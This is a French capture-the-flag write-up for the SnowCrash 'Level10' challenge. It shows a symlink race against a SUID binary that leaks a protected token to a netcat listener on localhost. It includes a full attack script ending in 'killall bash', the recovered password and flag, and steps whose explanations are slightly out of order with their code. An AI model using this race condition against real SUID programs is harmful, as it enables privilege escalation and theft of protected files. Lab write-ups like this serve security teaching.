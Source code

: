 # Level10

```bash
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

1) Analyse des permissions et du fonctionnement initial :
    - Lorsque vous examinez les permissions du fichier exécutable level10, vous remarquez qu'il a le bit SUID activé (-rwsr-sr-x+). Cela signifie que lorsqu'il est exécuté, il s'exécute avec les privilèges de l'utilisateur propriétaire du fichier, flag10 dans ce cas.

    - En exécutant ./level10 sans arguments, vous remarquez qu'il attend deux arguments : le premier est un fichier à envoyer, et le deuxième est l'hôte de destination. Si vous n'avez pas accès au fichier, il affiche "You don't have access to [nom du fichier]".

    - Vous découvrez que le programme se connecte à un hôte distant, probablement sur un port spécifique. Cependant, l'hôte cible n'est pas spécifié.

```bash
/level10
./level10 file host
        sends file to host if you have access to it

./level10 token localhost
You don't have access to token

./level10 /bin/ls localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```
```bash
echo '.*( )*.' > /tmp/swap;
```
2) Découverte du port cible :
    - Pour déterminer le port cible, vous créez un fichier vide nommé /tmp/swap contenant le motif .*( )*.. Ce motif sera utilisé pour filtrer les données reçues.
    - Vous démarrez un serveur Netcat en mode écoute (nc -l 6969) pour capturer les données envoyées par level10. Le filtre tr -d '.*( )*.' permet de supprimer les caractères spéciaux de ces données.
```bash
(while true; do nc -l 6969 | tr -d '.*( )*.'; done)& 
```

3) Création de liens symboliques :
    - Vous créez un script qui crée continuellement des liens symboliques (ln -fs) du fichier /tmp/swap vers /tmp/toto et du fichier token vers /tmp/toto.

```bash
(for (( ; ;)); do ~/level10 /tmp/toto 127.0.0.1 &> /dev/null; done;)&
```
4) Capture des données :
    - Maintenant, lorsque level10 est exécuté en continu avec /tmp/toto comme argument et en redirigeant vers l'adresse IP 127.0.0.1, il envoie continuellement des données.
    - Ces données sont interceptées par le serveur Netcat, filtrées à l'aide du motif, et stockées dans un fichier, prêt à être analysées.
```bash
for (( ; ; )); do         ln -fs /tmp/swap /tmp/toto;         ln -fs ~/token /tmp/toto; done;
```

5) Récupération du jeton :
    - Les liens symboliques sont continuellement modifiés pour pointer vers le fichier token. Le serveur Netcat filtre ces données et stocke le résultat dans un fichier.

Lorsque tout cela est en place, level10 envoie continuellement des données vers le serveur Netcat, qui les filtre et stocke le résultat dans un fichier. Parallèlement, les liens symboliques sont modifiés pour pointer vers le fichier token. Cette combinaison d'actions vous permet de récupérer le contenu de token et d'obtenir le jeton du niveau suivant.

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c

```

Script pour recup le flag

```bash
DEFAULT='.*( )*.'

echo $DEFAULT > /tmp/swap

(nc -l 6969 | grep -v -e "$DEFAULT") &

(
	while true; do
		ln -fs /tmp/swap /tmp/foo
		(ln -fs /home/user/level10/token /tmp/foo &)
		/home/user/level10/level10 /tmp/foo 127.0.0.1 &>/dev/null &
	done
)&

sleep 2
killall nc &>/dev/null
killall bash &>/dev/null
```

